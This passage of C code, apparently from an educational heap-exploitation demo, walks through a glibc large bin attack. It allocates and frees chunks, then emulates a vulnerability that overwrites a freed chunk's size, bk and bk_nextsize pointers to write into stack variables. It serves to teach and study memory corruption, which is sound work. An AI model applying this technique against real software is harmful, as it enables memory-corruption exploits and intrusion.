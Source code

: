 ```c
    fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);

    unsigned long *p1 = malloc(0x320);
    fprintf(stderr, "Now, we allocate the first large chunk on the heap at: %p\n", p1 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the first large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p2 = malloc(0x400);
    fprintf(stderr, "Then, we allocate the second large chunk on the heap at: %p\n", p2 - 2);

    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the next large chunk with"
           " the second large chunk during the free()\n\n");
    malloc(0x20);

    unsigned long *p3 = malloc(0x400);
    fprintf(stderr, "Finally, we allocate the third large chunk on the heap at: %p\n", p3 - 2);
 
    fprintf(stderr, "And allocate another fastbin chunk in order to avoid consolidating the top chunk with"
           " the third large chunk during the free()\n\n");
    malloc(0x20);
 
    free(p1);
    free(p2);
    fprintf(stderr, "We free the first and second large chunks now and they will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));

    malloc(0x90);
    fprintf(stderr, "Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the"
            " freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation"
            ", and reinsert the remaining of the freed first large chunk into the unsorted bin:"
            " [ %p ]\n\n", (void *)((char *)p1 + 0x90));

    free(p3);
    fprintf(stderr, "Now, we free the third large chunk and it will be inserted in the unsorted bin:"
           " [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
 
    //------------VULNERABILITY-----------

    fprintf(stderr, "Now emulating a vulnerability that can overwrite the freed second large chunk's \"size\""
            " as well as its \"bk\" and \"bk_nextsize\" pointers\n");
    fprintf(stderr, "Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk"
            " at the head of the large bin freelist. To overwrite the stack variables, we set \"bk\" to 16 bytes before stack_var1 and"
            " \"bk_nextsize\" to 32 bytes before stack_var2\n\n");

    p2[-1] = 0x3f1;
    p2[0] = 0;
    p2[2] = 0;
    p2[1] = (unsigned long)(&stack_var1 - 2);
    p2[3] = (unsigned long)(&stack_var2 - 4);

    //------------------------------------
```